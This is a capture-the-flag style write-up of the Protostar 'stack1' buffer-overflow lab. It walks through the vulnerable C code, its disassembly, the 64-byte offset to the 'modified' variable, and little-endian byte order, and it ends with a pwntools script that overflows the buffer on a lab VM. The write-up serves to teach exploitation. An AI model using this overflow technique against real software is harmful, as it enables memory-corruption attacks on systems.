


# Stack1

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}

```

goal: Overwrite the content of the variable 'modified' with 0x61626364 


## static analysis: 

```asm 
0x08048464 <main+0>:	push   ebp
0x08048465 <main+1>:	mov    ebp,esp
0x08048467 <main+3>:	and    esp,0xfffffff0
0x0804846a <main+6>:	sub    esp,0x60
0x0804846d <main+9>:	cmp    DWORD PTR [ebp+0x8],0x1    
0x08048471 <main+13>:	jne    0x8048487 <main+35>
0x08048473 <main+15>:	mov    DWORD PTR [esp+0x4],0x80485a0
0x0804847b <main+23>:	mov    DWORD PTR [esp],0x1
0x08048482 <main+30>:	call   0x8048388 <errx@plt>
0x08048487 <main+35>:	mov    DWORD PTR [esp+0x5c],0x0   
0x0804848f <main+43>:	mov    eax,DWORD PTR [ebp+0xc]
0x08048492 <main+46>:	add    eax,0x4
0x08048495 <main+49>:	mov    eax,DWORD PTR [eax]
0x08048497 <main+51>:	mov    DWORD PTR [esp+0x4],eax
0x0804849b <main+55>:	lea    eax,[esp+0x1c]        <--- 4) eax point on [esp+0x1c]
0x0804849f <main+59>:	mov    DWORD PTR [esp],eax  <--- 3)  'buffer' address is store in eax         
0x080484a2 <main+62>:	call   0x8048368 <strcpy@plt>     
0x080484a7 <main+67>:	mov    eax,DWORD PTR [esp+0x5c]  <--- 2) eax points on [esp+0x5c]
0x080484ab <main+71>:	cmp    eax,0x61626364          <---- 1) comparing 'modified' with 0x61626364
0x080484b0 <main+76>:	jne    0x80484c0 <main+92>
0x080484b2 <main+78>:	mov    DWORD PTR [esp],0x80485bc
0x080484b9 <main+85>:	call   0x8048398 <puts@plt>
0x080484be <main+90>:	jmp    0x80484d5 <main+113>
0x080484c0 <main+92>:	mov    edx,DWORD PTR [esp+0x5c]
0x080484c4 <main+96>:	mov    eax,0x80485f3
0x080484c9 <main+101>:	mov    DWORD PTR [esp+0x4],edx
0x080484cd <main+105>:	mov    DWORD PTR [esp],eax
0x080484d0 <main+108>:	call   0x8048378 <printf@plt>
0x080484d5 <main+113>:	leave  
0x080484d6 <main+114>:	ret

```

The stack look like this : 

```
  |  |                     |
  |  |     modified        | 
  |  |                     | 
  |  |---------------------|esp+0x5c (esp+92)
  |  |                     |
  |  |       buffer        |   
  |  |                     |
  |  |---------------------|esp+0x1c  (esp+28)
  |  |      ...            |
  |  |---------------------| <-- esp 
  v
```

We can overwrite the content of 'modified' because we control 'buffer', we need to calculate how many bytes we should add in 
'buffer' to overwrite 'modified'.

```
0x5c - 0x1c = 64

```
So after overwriting 64 bytes we can control 'modified'.

# Little endian

Before writing the script let's understand how the little endian format works : 

Each byte has it own memory address  and in our case we want to overwrite 'modified' which is an integer.

An integer is 4 bytes in c so the stack will look like this:


```
  |  |                     |esp+0x5f 
  |  |     modified        |esp+0x5e  
  |  |                     |esp+0x5d 
  |  |                     |esp+0x5c  
  |  |---------------------|
  |  |      ...            |
  |  |---------------------| <-- esp 
  v

```

In the little endian format we start reading with the lowest address towards the highest.

ex: 


```
    |  0x61  | esp+0x3
    |  0x62  | esp+0x2 
    |  0x63  | esp+0x1
    |  0x64  | <---esp

    read value : 0x64

    |  0x61  | esp+0x2
    |  0x62  | esp+0x1 
    |  0x63  | <---esp

    read value : 0x6364

    |  0x61  | esp+0x1
    |  0x62  | <---esp 


   read value : 0x626364


    |  0x61  | <---esp

    read value : 0x61626364


```

So in little endian format the word stored at esp+0x1 is read :   0x61626364

Do you have notice something ? How the value 0x61626364 was push on the stack ? 

Like this  0x64636261   (in backwards)


Ok but how do we know that we are dealing with little endian or big endian.

The 'file' command will give you this information : 




LSB :  Least Significant Byte


# Script time

```python

from pwn import * 

#  IP OF THE VM 192.168.160.128
# location of the binary /opt/protostar/bin/stack1


r = ssh(host='192.168.160.128', user='user', password='user')

payload = b'A'*64 + b'\x64\x63\x62\x61'

my_prog= r.run(['/opt/protostar/bin/stack1', payload])


print(my_prog.recvline())

```

Suspens ..



We made it ! 